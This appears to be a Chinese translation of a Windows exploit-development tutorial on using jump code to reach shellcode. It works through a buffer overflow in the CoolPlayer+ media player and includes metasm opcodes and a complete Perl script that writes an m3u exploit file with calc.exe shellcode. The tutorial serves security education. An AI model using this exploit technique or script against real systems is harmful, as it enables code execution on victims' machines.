#### 翻译自 [这里](http://www.securitysift.com/windows-exploit-development-part-4-locating-shellcode-jumps/)，转发请标注原作者
2022-5-31
***

### 序言

在第 2 部分和第 3 部分中，我们构建并改进了 ASX 到 MP3 转换器的漏洞利用。尽管它有缺陷，但就漏洞利用而言，它非常简单，通过直接覆盖 EIP 跳转到指向我们 shellcode 的寄存器。但是事情并不总是那么容易。很多时候，您必须做更多的工作才能让程序执行到您的 shellcode。在本系列的这一部分中，我们将研究如何在您的漏洞利用中使用 jump 代码。具体来说，我们将看看如何操作寄存器和栈，并使用条件/无条件 jump 来构建自定义跳转代码，以便成功访问和执行您的 shellcode。

### 跳转到shellcode

在我们的第一个漏洞利用示例中，我们很幸运，因为我们有一个寄存器 (EBX) 直接指向我们的 shellcode 的不间断部分，这意味着我们只需要一条 call/jmp 指令来执行它。如果一个寄存器只指向我们缓冲区的一小部分，而 shellcode 位于其他地方，会发生什么？或者，如果寄存器点接近但不完全在我们的缓冲区，该怎么办？或者，如果没有寄存器指向我们的 shellcode，但我们在栈上看到了指向 shellcode 的地址怎么办。在这些情况下，除了我们目前使用的标准 call/jmp 指令之外，我们还有几个选项。当谈到跳转代码时，我喜欢在下面几点中考虑可用选项

1. 通过操作寄存器
   1. 通过添加/减去寄存器并跳转到修改后的地址（add/sub [reg] + jmp）
   2. 通过查找跳转到寄存器偏移量的指令（jmp reg + offset）
   
2. 通过操作堆栈
   1. 通过将我们选择的地址压入堆栈并发出返回（push + ret）
   2. 通过从堆栈中弹出一系列地址并发出返回（pop + ret 或 popad + ret）
   
3. 使用无条件和条件跳转跳转到 shellcode

### 操作寄存器

#### add [reg] + jmp

即使你运气好并且寄存器直接指向缓冲区的一部分，它也可能不是一个允许立即执行你的 shellcode 的位置，但是，您可以增加/减少寄存器中的地址，然后强制程序跳转到它。为了说明这种技术，我将介绍另一个基于 m3u 的漏洞利用，这次是 CoolPlayer+ v2.19.4（撰写本文时的最新版本），你可以从 Exploit-DB：http://www.exploit-db.com/exploits/29613/ 下载此程序以及我的漏洞利用的已发布版本。在 C:\ 中安装应用程序，以便您可以按照本教程的其余部分进行操作。有两条有重要的信息，我匆忙之中，我错误地忽略了我已发布的 CoolPlayer+ 漏洞利用。首先，漏洞实际上依赖于生成的 m3u 文件的位置，就像我们之前的 ASX To MP3 播放器示例一样。其次，为了使漏洞利用工作，CoolPlayer+ 可执行文件必须从它的安装目录运行。这意味着如果你想调试这个漏洞（我们会这样做），你必须第一次从 Immunity Debugger 外部启动 CoolPlayer+（双击位于 C:\CoolPlayer+Portable\ 中的 .exe），然后附加到进程。在初始运行之后，您可以简单地使用 Ctrl+F2 在调试器中重新启动应用程序。安装应用程序后，创建一个仅包含 Metasploit 模式的 m3u 文件。您可以使用以下任一选项

```bash
Kali: /usr/share/metasploit-framework/tools/pattern_create.rb 10000 > msfpattern.m3u
Mona: !mona pc 10000 (copy the resulting output into an m3u file)
```

我们将改进我已公开的漏洞利用，所以让我们从头开始。首先启动 CoolPlayer+ 并将 Immunity 附加到正在运行的进程。



接下来，将包含 Metasploit 模式的 m3u 文件放在 C:\ 中并使用 CoolPlayer+ 打开它，此时应用程序应该会崩溃，您应该会在 Immunity 中看到类似于以下内容的内容



注意 EDX 和 EBX 如何指向 Metasploit 模板的开头。 ESP 也指向模板的一部分，但不是开始。让我们使用 mona 来确定偏移量。



Mona 告诉我们 EIP 覆盖发生在偏移量 260 处（请记住，在第 2 部分中，这是我自定义的 mona 版本，因此您不会看到列出的其他偏移量）。它还确认 EBX 和 EDX 都指向我们的 Metasploit 模式缓冲区的开头，但 EBX 包含更长的不间断部分（10000 字节与 512 字节）。 ESP 指向缓冲区的一小部分。事实上，如果您在dump窗口中查看 ESP，您可以准确地看到它在 248 字节的中断。



基于这些信息，我们希望使用 EBX 作为我们的目标寄存器。让我们通过验证对 EIP 的成功控制来开始构建我们的漏洞利用。



将生成的 m3u 文件放在 C:\ 中，在 Immunity 中重新启动 CoolPlayer+ (Ctrl+F2) 并打开 m3u 文件。



现在我们已经验证了对 EIP 的控制，我们可以寻找 jump 或 call EBX 指令，以便我们可以重定向到我们的 shellcode。再一次，我们可以使用 mona 来做到这一点。

```
!mona find -type instr -s "call ebx"
```

如果您参考由 mona 创建的 find.txt 文件，您会看到只有一个程序模块具有可行的指令。不幸的是，所有相关的地址都包含空字节。重复搜索“jmp ebx”会产生相同的结果，因此我们不得不使用 OS 模块。我将从 kernel32.dll 中选择一个地址：0x7c810395。我们现在有了 “call ebx” 地址，但 EBX 指向缓冲区的开头，而不是我们的 shellcode。请记住，由于这是直接的 EIP 覆盖，我们的漏洞利用缓冲区的构造类似于以下内容：JUNK（EIP 的偏移量）+ EIP + NOPS + SHELLCODE + FILL。这意味着如果我们保持原样，“call ebx” 将跳回到缓冲区的开头进入$junk，而不是直接跳到我们的shellcode。对于寄存器指向缓冲区开头的这种情况，理想的解决方案是在 EIP 覆盖之前将 SHELLCODE 部分简单地移动到开头。这里的问题是我们对 EIP 的偏移量只有 260 个字符。诚然，我们一直使用的 calc.exe shellcode 少于 260 个字符，但如果您想做的不仅仅是打开计算器，会发生什么？我们可以使用“CALL EBX”指令跳转到缓冲区的开头，然后使用另一个自定义跳转代码序列跳过我们的 EIP 覆盖并进入我们的 NOPS 和 shellcode，而不是将自己限制在 shellcode 的小空间中。此自定义跳转代码实际上将通过将所需字节数添加到其值来操作 EBX 寄存器，然后直接跳转到该更新地址。从概念上讲，漏洞利用缓冲区将如下所示。




让我们使用 CALL EBX 指令更新我们的漏洞利用脚本，然后在缓冲区的最开始放置一些中断，以确认我们可以成功访问我们的自定义 jump 代码。



将 m3u 文件放在 C:\ 并在 CoolPlayer+ 中打开



我们已成功重定向到缓冲区的开头。现在我们需要用一些 jump 代码来启动 shellcode。我们的 jump 代码将执行以下操作：将 X 添加到 EBX，然后跳转到调整后的 EBX，其中 X = 我们要跳转的字节数。我们应该向 EBX 添加多少？我们需要考虑偏移量，即 260 字节和 EIP，即 4 字节。我们还想在我们的 shellcode 前加上一些 NOPS，理想情况下，我们的跳转代码将落在这个 NOP 滑板的某个地方。因为在我们的 EIP 覆盖之后我们有足够的空间用于 shellcode，所以让我们以 50 NOPS 开头。考虑到用于覆盖 EIP 的四个字节，我们的 NOP 滑板将占用缓冲区的 265 到 315 字节。因此，一个 300 的自定义跳转应该让我们舒适地进入这个 NOP滑板，并很好地滑向后面的 shellcode。那么，这个自定义跳转代码是什么样的呢？为此，我们可以求助于另一个方便的 Metasploit 工具，称为 metasm。在 Kali 中，您可以通过以下方式访问它

```bash
/usr/share/metasploit-framework/tools/metasm_shell.rb
```

这将生成一个 metasm shell，您可以在其中输入汇编指令，它将为您的 shellcode 返回相关的操作码。既然我们要给 EBX 加 300，我们在 metasm 中输入对应的 汇编命令，看看结果。

```
metasm > add ebx, 300
"\x81\xc3\x2c\x01\x00\x00"
```
生成的操作码的问题是它包含 NULL 字节。为了避免这种情况，让我们尝试一个较小的增量 100.

```
metasm > add ebx, 100
"\x83\xc3\x64"
```

完美，没有空字节。为了将 EBX 增加 300，我们只需重复此指令 3 次。在我们将 EBX 增加 300 后，我们需要跳转到它。使用 metasm 获取 jmp EBX 的操作码如下.

```
jmp ebx
"\xff\xe3"
```

我们的 jump 代码如下所示：

```
my $jmp = "\x83\xc3\x64" x 3; # add 300 to ebx
$jmp = $jmp . "\xff\xe3"; # jmp ebx
```

让我们更新我们的漏洞利用脚本来验证自定义跳转代码是否成功地将程序执行重定向到我们的 shellcode。



参考上面的截图，你可以看到我已经添加了跳转代码。我还修改了 $junk 以便它考虑 $jmp 的长度，我们最终得到了到 EIP 的正确偏移量（260）。我没有使用实际的 NOP，而是使用了中断，因此我们可以准确地看到我们的自定义跳转代码到达我们的位置。如果一切按预期进行，我们应该落在 jump 代码的 300 个字节后的 int 指令上。

完美的。我们准确地降落在我们预期的地方。现在我们本可以让 NOP 缓冲区更小，更靠近 EIP，但既然我们有空间可以玩，没有理由这么精确。让我们再次更新我们的漏洞利用脚本，用实际的 NOP 替换 INT 并插入一些 shell 代码（calc.exe）。

```perl
#!/usr/bin/perl

my $buffsize = 10000; # set consistent buffer size

my $jmp = "\x83\xc3\x64" x 3; # add 300 to ebx which will jump beyond eip overwrite and into nops/shellcode
$jmp = $jmp . "\xff\xe3"; # jmp ebx
my $junk = "\x41" x (260 - length($jmp)); # fill remainder of start of buffer to eip overwrite at offset 260
my $eip = pack('V',0x7c810395); # call ebx [kernel32.dll] which points to start of buffer and our jump code
# no usable application module found
my $nops = "\xcc" x 50;

# Calc.exe payload [size 227]
# msfpayload windows/exec CMD=calc.exe R |
# msfencode -e x86/shikata_ga_nai -t perl -c 1 -b '\x00\x0a\x0d\xff'
my $shell = "\xdb\xcf\xb8\x27\x17\x16\x1f\xd9\x74\x24\xf4\x5f\x2b\xc9" .
"\xb1\x33\x31\x47\x17\x83\xef\xfc\x03\x60\x04\xf4\xea\x92" .
"\xc2\x71\x14\x6a\x13\xe2\x9c\x8f\x22\x30\xfa\xc4\x17\x84" .
"\x88\x88\x9b\x6f\xdc\x38\x2f\x1d\xc9\x4f\x98\xa8\x2f\x7e" .
"\x19\x1d\xf0\x2c\xd9\x3f\x8c\x2e\x0e\xe0\xad\xe1\x43\xe1" .
"\xea\x1f\xab\xb3\xa3\x54\x1e\x24\xc7\x28\xa3\x45\x07\x27" .
"\x9b\x3d\x22\xf7\x68\xf4\x2d\x27\xc0\x83\x66\xdf\x6a\xcb" .
"\x56\xde\xbf\x0f\xaa\xa9\xb4\xe4\x58\x28\x1d\x35\xa0\x1b" .
"\x61\x9a\x9f\x94\x6c\xe2\xd8\x12\x8f\x91\x12\x61\x32\xa2" .
"\xe0\x18\xe8\x27\xf5\xba\x7b\x9f\xdd\x3b\xaf\x46\x95\x37" .
"\x04\x0c\xf1\x5b\x9b\xc1\x89\x67\x10\xe4\x5d\xee\x62\xc3" .
"\x79\xab\x31\x6a\xdb\x11\x97\x93\x3b\xfd\x48\x36\x37\xef" .
"\x9d\x40\x1a\x65\x63\xc0\x20\xc0\x63\xda\x2a\x62\x0c\xeb" .
"\xa1\xed\x4b\xf4\x63\x4a\xa3\xbe\x2e\xfa\x2c\x67\xbb\xbf" .
"\x30\x98\x11\x83\x4c\x1b\x90\x7b\xab\x03\xd1\x7e\xf7\x83" .
"\x09\xf2\x68\x66\x2e\xa1\x89\xa3\x4d\x24\x1a\x2f\xbc\xc3" .
"\x9a\xca\xc0";

my $sploit = $jmp.$junk.$eip.$nops.$shell; # build sploit portion of buffer
my $fill = "\x43" x ($buffsize - (length($sploit))); # fill remainder of buffer for size consistency
my $buffer = $sploit.$fill; # build final buffer

# write the exploit buffer to file
my $file = "coolplayer.m3u";
open(FILE, ">$file");
print FILE $buffer;
close(FILE);
print "Exploit file [" . $file . "] created\n";
print "Buffer size: " . length($buffer) . "\n";
```



成功，然而，这个漏洞利用仍然受到限制，因为它仅在从 C:\ 打开 m3u 文件时才有效。下面展现了一种可能的解决方案。

#### sub [reg] + jmp

您可能会遇到想减少寄存器值，而不是增加寄存器的值。例如，在崩溃时，EBX 仍然指向我们缓冲区的开头，但只提供 < 100 字节的不间断空间，没有足够的空间来放置 shellcode，但对于一些基本的跳转代码来说已经足够了。这意味着我们可以使用 EBX 重定向到缓冲区的开头并执行一些针对另一个寄存器的跳转代码，在本例中为 ESP。 ESP 指向我们缓冲区的一部分（从我们的缓冲区开始总共大约 280 个字节）。问题是，在崩溃和 EIP 覆盖时，ESP 指向缓冲区的中间而不是开头，如果不调整 ESP，我们就没有足够的空间来托管我们的 shellcode。为了解决这个问题，我们可以重新排列我们的缓冲区，将 shellcode 放在开头，将 ESP 递减适当的值，然后跳转到 ESP 执行 shellcode。让我们重新访问我们的 CoolPlayer+ 漏洞并进行必要的调整。这是崩溃时的栈（使用 msf 模板），因此您可以可视化我们必须为新缓冲区使用的空间。


我们需要将 ESP 减少大约 240 字节。再次使用 metasm 获取对应的操作码

```
metasm > sub esp, 100
"\x83\xec\x64"
metasm > sub esp, 40
"\x83\xec\x28"
metasm > jmp esp
"\xff\xe4"
```

这是更新后的 Perl 脚本



请注意以下更改

1. 跳转代码现在将 ESP 递减 240  
2.  Shellcode 移动到缓冲区的开头（在跳转代码之后） 
3. 不再需要缓冲区的垃圾部分（NOP 填充任何剩余空间以偏移 260）

您现在可以在执行时看到堆栈（出于演示目的，将调用 EBX 替换为 \xcc INT 指令）。

